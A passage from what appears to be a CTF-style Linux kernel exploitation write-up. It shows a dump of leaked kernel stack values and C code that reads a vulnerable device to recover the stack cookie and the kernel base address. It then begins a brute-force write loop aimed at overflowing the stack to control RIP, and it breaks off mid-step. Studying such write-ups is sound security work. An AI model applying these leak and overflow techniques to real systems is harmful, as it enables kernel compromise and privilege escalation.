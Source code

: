     Cycle: 50 Idx: 30 Element: 184ded5d1f441700
    Cycle: 50 Idx: 31 Element: ffffa272c01bff58
    Cycle: 50 Idx: 32 Element: 0
    Cycle: 50 Idx: 33 Element: 0
    Cycle: 50 Idx: 34 Element: 0
    Cycle: 50 Idx: 35 Element: ffffa272c01bff30
    Cycle: 50 Idx: 36 Element: ffffffffa4a4ce5a
    Cycle: 50 Idx: 37 Element: ffffa272c01bff48
    Cycle: 50 Idx: 38 Element: ffffffffa440a157
    Cycle: 50 Idx: 39 Element: 0
    Cycle: 50 Idx: 40 Element: 0
    Cycle: 50 Idx: 41 Element: ffffffffa460008c
    Cycle: 50 Idx: 42 Element: 0
    Cycle: 50 Idx: 43 Element: 32
    Cycle: 50 Idx: 44 Element: 0
    Cycle: 50 Idx: 45 Element: 32
    Cycle: 50 Idx: 46 Element: 7ffe7e120220
    Cycle: 50 Idx: 47 Element: 7ffe7e1201c0
    Cycle: 50 Idx: 48 Element: 246
    Cycle: 50 Idx: 49 Element: 10
We can easily identify the Kernel Stack Cookie in various Position (like idx:16), for kernel base is quite tricky, checking on gdb the address we see that the address at idx: 38 is:

    Mapped Area 0xffffffffa440a157 = 0xffffffffa4400000 + 0xa157

We got really close to the base, so our c code now is like this:
```c
        unsigned long leak[40];
        unsigned long cookie;
        unsigned long kbase;
        ssize_t l = read(fd, leak, sizeof(leak));
        cookie = leak[16];
        kbase = leak[38]  - 0xa157ULL;
        printf("Cookie: %lx\n", cookie);
        printf("Kernel Base: %lx\n", kbase);
```
Running it we get:

    / $ ./exploit 
    [+] Stage 0: Device Opened!
    Cookie: ff5d094528d80700
    Kernel Base: ffffffffb2200000

# OVERFLOW? and MORE LEAK! 
So we leaked kernel base and stack cookie, now let's control the rip, again as before I tried a bruteforce approach:
```c
	for (int i=1; i<=50;i++){
		unsigned long payload[i];
		ssize_t w = write(fd, payload, sizeof(payload));
		printf("Cycle: %d\n",i);
	}
```
Running it we get
